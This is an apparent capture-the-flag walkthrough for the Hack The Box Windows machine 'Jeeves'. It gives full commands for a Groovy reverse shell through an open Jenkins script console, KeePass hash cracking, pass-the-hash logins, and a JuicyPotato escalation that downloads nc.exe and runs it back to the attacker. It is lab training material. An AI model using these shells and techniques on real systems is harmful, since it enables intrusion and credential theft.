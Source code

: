 ![Jeeves](https://labs.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [mrb3n](https://app.hackthebox.com/users/2984)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.63 -oG scan
	/opt/extractports scan
	nmap -p80,135,445,50000 -Pn -sCV 10.10.10.63 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/5b5bd64b-3165-44ba-8d2d-fb83485002bf)

- Searching through the website I can't find anything, it's too simple. 

	![image](https://github.com/user-attachments/assets/e957712f-9e93-4e4f-8ad2-12a9e2e4fad3)

- I decide to list directories and find one, “askjeeves”. When I enter this one I find a jenkis service that I don't need to provide credentials to enter.

	```python
	gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -f -t 200
	```
	
	![image](https://github.com/user-attachments/assets/c295c224-cc23-478b-8e3e-04f528418d2b)

- Inside this one I move to the scripts section to run a [revershell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy).

	```python
	String host="10.10.14.8";
	int port=4444;
	String cmd="cmd.exe";
	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
	```

	![image](https://github.com/user-attachments/assets/fafb1384-2afc-413c-9594-0b7c0fbc9d6b)

- Once inside the system, I can read the first flag.

	![image](https://github.com/user-attachments/assets/6c4de4c3-624d-400b-a3a1-a515d1ed7ae3)

- Looking through the user's files I find inside “Documents” a .kdbx file. I pass it to my system, with keepass2john I extract its hash and I manage to break it.
	
  ![image](https://github.com/user-attachments/assets/d63c3bdf-3ff5-45c9-877e-00fec9e7423e)
	
	```python
	keepass2john CEH.kdbx > hash
	john hash --wordlist=/usr/share/wordlists/rockyou.txt 
	```
	
	![image](https://github.com/user-attachments/assets/842596be-1455-4a8b-9526-cf053259028e)

- Inside this file I find several users and passwords. One of the passwords has the hash format nt. I validate which user it belongs to and I see that it is that of the administrator user. 

	![image](https://github.com/user-attachments/assets/b5ccdb56-785a-402a-81dd-3bbe276c27f0)
	
	```python
	netexec smb 10.10.10.63 -u usernames -H aad3XXXXXXXXXXXXXXXXX04ee:e0fb1fXXXXXXXXXXXXXXXXXXXXXxfe00
	```
	
	![image](https://github.com/user-attachments/assets/de664dbf-8a7d-4389-b1f6-dea783640c0a)

- I connect as this user making a PtH

```python
impacket-smbclient administrator@10.10.10.63 -hashes e0fb1fb85756c24235ff238cbe81fe00:e0fb1fb85756c24235ff238cbe81fe00
```

- After searching for a long time I find that the second flag is hidden. I can see it thanks to the following command.
	
	```python
	dir /R
	```
	
	![image](https://github.com/user-attachments/assets/faa2ae2e-a1ac-4167-96c1-0d9db4485474)

- There are several ways to read the hidden file. A couple of them are as follows.
	
	```python
	more < hm.txt:root.txt
	# or 
	powershell Get-Content -Path "hm.txt" -Stream "root.txt"
	```

---

- This is one way to resolve the machine but being the user kohsuke there is another way to escalate privileges.

	![image](https://github.com/user-attachments/assets/89f288dd-5ba7-4aae-ae05-7bbbc529b168)

- If we look at the privileges that this user has, we can see that he has the “SeImpersonatePrivilege” enabled. Thanks to this privilege I can get an interactive console as nt autority. To achieve this we can make use of [JuicyPotatoypo](https://github.com/ohpe/juicy-potato).
	
	```python
	powershell -Command "Invoke-WebRequest http://10.10.14.8:8000/JuicyPotato.exe -OutFile C:\Temp\JuicyPotato.exe"
	powershell -Command "Invoke-WebRequest http://10.10.14.8:8000/nc.exe -OutFile C:\Temp\nc.exe"
	
	
	c:\Temp\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Temp\nc.exe 10.10.14.8 8445 -e cmd.exe" -t *
	```
	
	![image](https://github.com/user-attachments/assets/fc13e991-ca9a-4f57-a352-e387c440327d)

- With this way we get to the same point as with the other way but it is interesting to know other techniques to escalate our privileges.
